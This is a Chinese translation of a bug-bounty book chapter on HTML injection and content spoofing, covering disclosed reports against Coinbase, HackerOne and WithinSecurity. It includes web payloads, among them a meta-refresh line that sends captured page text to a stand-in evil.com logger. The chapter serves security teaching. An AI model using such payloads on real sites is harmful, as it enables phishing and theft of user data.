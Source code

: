 # 五、HTML 注入

> 作者：Peter Yaworski

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

超文本标记语言（HTML）注入有时也被称为虚拟污染。 这实际上是一个由站点造成的攻击，该站点允许恶意用户向其 Web 页面注入 HTML，并且没有合理处理用户输入。 换句话说，HTML 注入漏洞是由接收 HTML 引起的，通常通过一些之后会呈现在页面的表单输入。 这个漏洞是独立的，不同于注入 Javascript，VBscript 等。

由于 HTML 是用于定义网页结构的语言，如果攻击者可以注入 HTML，它们基本上可以改变浏览器呈现的内容。 有时，这可能会导致页面外观的完全改变，或在其他情况下，创建表单来欺骗用户，例如，如果你可以注入 HTML，你也许能够将 `<form>` 标签添加到页面，要求用户重新输入他们的用户名和密码。 然而，当提交此表单时，它实际上将信息发送给攻击者。

## 示例

### 1\. Coinbase 评论

难度：低

URL：`coinbase.com/apps`

报告链接：`https://hackerone.com/reports/104543`

报告日期：2015.12.10

奖金：$200

描述：

对于此漏洞，报告者识别出 Coinbase 在呈现文本时，实际上在解码 URI 的编码值。 对于那些不熟悉它的人（我在写这篇文章的时候），URI 中的字符是保留的或未保留的。 根据维基百科，保留字是有时有特殊意义的字符，如`/`和`&`。 未保留的字符是没有任何特殊意义的字符，通常只是字母。

因此，当字符被 URI 编码时，它将按照 ASCII 转换为其字节值，并以百分号（`%`）开头。 所以，`/`变成`%2F`，`&`成为`%26`。 另外，ASCII 是一种在互联网上最常见的编码，直到 UTF-8 出现，它是另一种编码类型。 现在，回到我们的例子，如果攻击者输入 HTML：

```html
<h1>This is a test</h1>
```

Coinbase 实际上会将其渲染为纯文本，就像你上面看到的那样。但是，如果用户提交了 URL 编码字符，像这样：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```

Coinbase 实际上会解码该字符串，并渲染相应的字符，像这样：

```
This is a test
```

使用它，报告者演示了如何提交带有用户名和密码字段的 HTML 表单，Coinbase 会渲染他。如果这个用户是恶意的，Coinbase 就会渲染一个表单，它将值提交给恶意网站来捕获凭据（假设人们填充并提交了表单）。

> 重要结论

> 当你测试一个站点时，要检查它如何处理不同类型的输入，包括纯文本和编码文本。特别要注意一些接受 URI 编码值，例如`%2f`，并渲染其解码值的站点，这里是`/`。虽然我们不知道这个例子中，黑客在想什么，它们可能尝试了 URI 编码限制字符，并注意到 Coinbase 会解码它们。之后他们更一步 URL 编码了所有字符。

> <http://quick-encoder.com/url> 是一个不错的 URL 编码器。你在使用时会注意到，它告诉你非限制字符不需要编码，并且提供了编码 URL 安全字符的选项。这就是获取用于 COinbase 的相同编码字符串的方式。

### 2\. HackerOne 无意识 HTML 包含

难度：中

URL：hackerone.com

报告链接：<https://hackerone.com/reports/112935>

报告日期：2016.1.26

奖金：$500

描述：

在读完 Yahoo XSS 的描述（第七章示例四），我对文本编辑器中的 HTML 渲染测试产生了兴趣。这包含玩转 HackerOne 的 Markdown 编辑器，在图像标签中输入一些类似`ismap= "yyy=xxx"`和`"'test"`的东西。这样做的时候，我注意到，编辑器会在双引号里面包含一个单引号 - 这叫做悬置引号。

那个时候，我并没有真正理解它的含义。我知道如果你在某个地方注入另一个单引号，两个引号就会被浏览器一起解析，浏览器会将它们之间的内容视为一个 HTML 元素，例如：

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```

使用这个例子，如果你打算注入一个 Meta 标签：

```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

浏览器会提交两个引号之间的任何东西。现在，结果是，这个已经在 HackerOne 的 [#110578](https://hackerone.com/reports/110578) 报告中由 [intidc](https://hackerone.com/intidc) 公开。看到它公开之后，我有一点失望。

根据 HackerOne，它们依赖于 Redcarpet（一个用于 Markdown 处理的 Ruby 库）的实现，来转义任何 Markdown 输入的 HTML 输出，随后它会通过 React 组件的`dangerouslySetInnerHTML`直接传递给 HTML DOM（也就是页面）。此外，React 是一个 JavaScript 库，可用于动态更新 Web 页面的内容，而不需要重新加载页面。

DOM 指代用于有效 HTML 以及 格式良好的 XML 的应用程序接口。本质上，根据维基百科，DOM 是跨平台并且语言无关的约定，用于展示 HTML、XHTML 和 XMl 中的对象，并与其交互。

在 HackerOne 的实现中，它们并没有合理转义 HTML 输出，这会导致潜在的漏洞。现在，也就是说，查看披露，我觉得我应该测试一下心得代码。我返回并测试了这个：

```md
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```

它会变成

```html
<a title="'test" ismap="alert xss" yyy="test" &#39; ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```

你可以看到，我能够将一堆 HTML 注入到`<a>`标签中。所以，HackerOne 回滚了该修复版本，并重新开始转义单引号了。

> 重要结论

> 仅仅是代码被更新了，并不意味着一些东西修复了，而是还要测试一下。当部署了变更之后，同时意味着新的代码也可能存在漏洞。

> 此外，如果你觉得有什么不对，一定要深入挖掘。我知道一开始的尾后引号可能是个问题，但是我不知道如何利用它，所以我停止了。我本应该继续的。我实际上通过阅读 XSS Jigsaw 的 <blog.innerht.ml> 了解了 Meta 刷新利用（请见“资源”一张），但是这是后事了。

### 3\. WithinSecurity 内容伪造

难度：低

URL：`withinsecurity.com/wp-login.php`

报告链接：`https://hackerone.com/reports/111094`

报告日期：2015.1.16

奖金：$250

描述：

虽然内容伪造实际上和 HTML 注入是不同的漏洞，我也将其包含在这里，因为它们拥有相似的本质，攻击者让一个站点渲染它们选择的内容。

WithinSecurity 构建在 WordPress 平台之上，它包含登录页面`withinsecurity.com/wp-login.php`（这个站点已经合并到了 HackerOne 的核心平台中）。攻击者注意到了在登录过程中，如果发生了错误，WithinSecurity 就会渲染`access_denied`，同时对应 URL 中的`error`参数：

```
https://withinsecurity.com/wp-login.php?error=access_denied
```

注意到了这个，攻击者尝试修改`error`参数，并发现无论参数传递了什么值，都会被站点渲染为错误信息的一部分，并展示给用户。这里是所用的示例：

```
https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked
```

![](img/5-3-1.jpg)

WithinSecurity 内容伪造

这里的关键是注意到 URL 中的参数在页面中渲染。虽然他们没有解释，我可以假设攻击者注意到了`access_denied`展示在了页面上，但是也包含在 URL 中。这里他们也报告了，漏洞也可以由一个简单的测试，修改`access_denied`参数来找到。

> 重要结论

> 时刻关注传递并且渲染为站点内容的 URL 参数。他们可能就是攻击者的机会，来欺骗受害者来执行一些恶意动作。

## 总结

HTML 注入向站点和开发者展示了漏洞，因为他可以用于误导用户，并且欺骗它们来提交一些敏感信息，或者浏览恶意网站。就像钓鱼攻击那样。

发现这些漏洞并不是通过仅仅提交 HTML，而是弄清楚站点如何渲染你的输入文本，像是 URI 编码的字符。而且，虽然内容伪造并不和 HTML 注入完全一样，它也是类似的，因为它涉及让一些输入在 HTML 页面中反映给受害者。攻击者应该仔细寻找机会，来操纵 URL 参数，并让它们在站点上渲染。
